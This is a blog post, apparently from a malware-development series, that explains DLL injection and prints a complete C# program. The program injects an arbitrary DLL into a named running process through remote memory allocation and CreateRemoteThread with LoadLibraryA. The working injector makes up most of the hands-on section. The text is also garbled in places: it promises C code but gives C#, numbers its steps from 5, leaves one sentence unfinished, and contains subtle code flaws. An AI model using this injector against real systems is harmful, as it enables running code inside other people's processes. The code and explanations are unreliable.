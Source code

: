 ```yaml
---
layout: single
title: "Payload Unleashed: DLL Injection"
date: 2024-02-28
classes: wide
header:
  teaser: /assets/images/maldev.png
categories:
  - infosec
tags:
  - windows
  - malware
---
```


Dynamic Link Library (DLL) injection is a technique used in the realm of software development and cybersecurity. It involves inserting a DLL into the address space of a running process, thereby altering its behavior or extending its functionality. While primarily used for legitimate purposes such as debugging and system monitoring, DLL injection can also be leveraged for malicious activities like code execution and privilege escalation. 

In this blog post, we'll delve into the workings of DLL injection, its various types, and which nasty things can we do with it.

# Understanding DLL Injection

At its core, DLL injection is about injecting external code into the memory space of a running process. This allows the injected code to execute within the context of the target process, granting it access to resources and functionalities it wouldn't normally have. The injection process typically involves the following steps:

1. **Selection of Target Process**: The first step is to identify the process into which the DLL will be injected. This could be any running application or system process.
    
2. **Loading the DLL**: The DLL to be injected is loaded into the memory space of the target process. This can be achieved through various means, including using APIs like LoadLibrary or manually mapping the DLL into memory. We will address this techniques later. 
    
3. **Injection**: Once the DLL is loaded into the target process, the next step is to execute its code within that process. This is often achieved by creating a remote thread within the target process and directing it to execute a specific function within the injected DLL.

# Types of DLL Injection

DLL injection techniques can be classified into several categories, each with its own advantages and use cases. Some common types include:

1. **Load-time Injection**: In load-time injection, the DLL is loaded into the target process's address space at the time of process creation. This can be achieved by specifying the DLL in the process's import table or by modifying the process's environment variables to include the DLL's path.
    
2. **Run-time Injection**: Run-time injection involves injecting the DLL into a running process. This can be done using APIs like CreateRemoteThread or by directly modifying the target process's memory space to load the DLL.
    
3. **Reflective Injection**: Reflective injection is a more advanced technique where the injected DLL is capable of loading and executing itself without relying on the traditional Windows DLL loading mechanisms. This makes it harder to detect and trace compared to other injection methods. 
    
4. **Code Injection**: In code injection, rather than injecting an entire DLL, small snippets of code are injected into the target process. This code is then executed within the context of the process, allowing for more granular control over its behavior.

# Hands-On: Implementing DLL Injection in C

In this hands-on section, we'll explore how to implement DLL injection using C code. We'll focus on run-time injection, which involves injecting a DLL into a running process. For this demonstration, we'll create a simple console application to perform the injection.

## Overall process

 First, we need to open a handle to the target process to enable access to its memory space. Then, we reserve space within the target process to store the path of the DLL to be injected. Subsequently, the DLL path is written into this allocated memory space. Finally, a new thread is created within the target process, with its execution directed to a function that loads the DLL into the process's memory space. As a result, the injected DLL becomes part of the target process's execution, enabling it to modify the process's behavior or extend its functionality as desired. In the following section we will see 

## Functions needed

- **OpenProcess()**: This function is used to obtain a handle to the target process, which is required for various operations such as reading and writing memory or creating remote threads within the target process.

- **GetModuleHandle()**: It retrieves a handle to the specified module within the calling process. In this case, it's used to get a handle to the kernel32.dll module to obtain the address of the LoadLibraryA function.

- **GetProcAddress()**: This function retrieves the address of an exported function or variable from a specified dynamic-link library (DLL) module. Here, it's used to get the address of the LoadLibraryA function within the kernel32.dll module.

- **VirtualAllocEx()**: It is used to reserve or commit a region of memory within the virtual address space of the target process. In this code, it allocates memory within the target process to store the path of the DLL to be injected.

- **WriteProcessMemory()**: This function writes data to an area of memory in a specified process. Here, it writes the path of the DLL to be injected into the allocated memory space within the target process.

- **CreateRemoteThread()**: This function creates a new thread in the address space of the target process, starting execution at the specified address. In this code, it creates a remote thread within the target process to execute the LoadLibraryA function, effectively loading the DLL into the target process.


```c
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace DLLInjectionDemo
{
    class Program
    {
        // Import necessary Win32 API functions
        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, int dwProcessId);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        static extern IntPtr GetModuleHandle(string lpModuleName);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        static void Main(string[] args)
        {
            string targetProcessName = "targetProcess.exe"; // Change this to the name of the target process

            // Find the target process by name
            Process[] processes = Process.GetProcessesByName(targetProcessName);
            if (processes.Length == 0)
            {
                Console.WriteLine("Target process not found.");
                return;
            }

            Process targetProcess = processes[0];

            // Get the handle of the target process
            IntPtr processHandle = OpenProcess(0x1F0FFF, false, targetProcess.Id);
            if (processHandle == IntPtr.Zero)
            {
                Console.WriteLine("Failed to open target process.");
                return;
            }

            // Load the DLL into memory
            string dllPath = "C:\\path\\to\\your\\injected.dll"; // Change this to the path of your DLL
            IntPtr loadLibraryAddr = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr allocMemAddr = VirtualAllocEx(processHandle, IntPtr.Zero, (uint)((dllPath.Length + 1) * Marshal.SizeOf(typeof(char))), 0x1000, 0x40);

            // Write the DLL path into the target process's memory
            UIntPtr bytesWritten;
            WriteProcessMemory(processHandle, allocMemAddr, System.Text.Encoding.Default.GetBytes(dllPath), (uint)((dllPath.Length + 1) * Marshal.SizeOf(typeof(char))), out bytesWritten);

            // Create a remote thread in the target process to load the DLL
            CreateRemoteThread(processHandle, IntPtr.Zero, 0, loadLibraryAddr, allocMemAddr, 0, IntPtr.Zero);

            Console.WriteLine("DLL injected successfully.");

            // Close the handle to the target process
            CloseHandle(processHandle);
        }

        // Import CloseHandle function
        [DllImport("kernel32.dll")]
        static extern bool CloseHandle(IntPtr hObject);
    }
}
```

Replace `"targetProcess.exe"` with the name of the target process you want to inject the DLL into, and `"C:\\path\\to\\your\\injected.dll"` with the path to the DLL you want to inject.

5. Build the project to ensure there are no compilation errors.
6. Run the console application. If the target process is found and the DLL injection is successful, you should see the message "DLL injected successfully."

Note: Make sure to test the DLL injection code responsibly and only on processes you have permission to interact with. Unauthorized DLL injection into system processes or third-party applications can lead to system instability or security vulnerabilities.

This hands-on example demonstrates the basics of DLL injection in C# using the Windows API functions. Further customization and error handling can be added based on specific requirements and scenarios.